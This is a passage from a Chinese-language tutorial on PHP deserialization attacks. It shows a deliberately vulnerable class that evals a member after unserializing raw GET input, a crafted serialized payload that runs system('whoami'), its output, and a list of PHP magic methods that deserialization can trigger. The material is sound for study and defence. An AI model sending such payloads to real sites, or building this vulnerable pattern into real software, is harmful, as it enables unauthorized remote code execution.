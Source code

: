 * 通过调用方法，触发代码执行

```php
<?php
class test{
    public $a = 'echo "this is test!!";';
    public function displayVar() {
        eval($this->a);
    }
}

$get = $_GET["benben"];
$b = unserialize($get);
$b->displayVar();
```

构造 payload：`O:4:"test":1:{s:1:"a";s:17:"system("whoami");";}`

```php
<?php
class test{
    public $a = 'system("whoami");';
}

$get = new test();

echo serialize($get);
```

运行结果：

```text
win-1iljbo80gej\administrator
```

## 七、魔术方法

**魔术方法：** 一个预定义好的，在特定情况下自动触发的行为方法

### 1、魔术方法的作用

魔术方法在特定条件下自动调用相关方法，最终导致触发代码

1. __construct()，类的构造函数
2. __destruct()，类的析构函数
3. __call()，在对象中调用一个不可以访问的方法
4. __callStatic()，用静态方式调用一个不可以访问的方法
5. __get()，访问一个不可以访问的类的成员属性时调用
6. __isset()，对不可访问属性调用 isset() 或 empty()
7. __set()，设置一个不可访问的类的成员属性
8. __unset()，对不可访问属性调用 unset()
9. __sleep()，执行 serialize() 时，会先调用这个函数
10. __wakeup()，执行 unserialize() 时，会先调用这个函数
11. __toString()，类被作为字符串
12. __invoke()，类被作为函数调用
13. __set_state()，调用 var_export() 导出类时，此静态方法被调用
14. __clone()，当对象调用 clone() 复制完成时
15. __autoload()，尝试加载未定义的类
16. __debugInfo()，打印所需调试信息
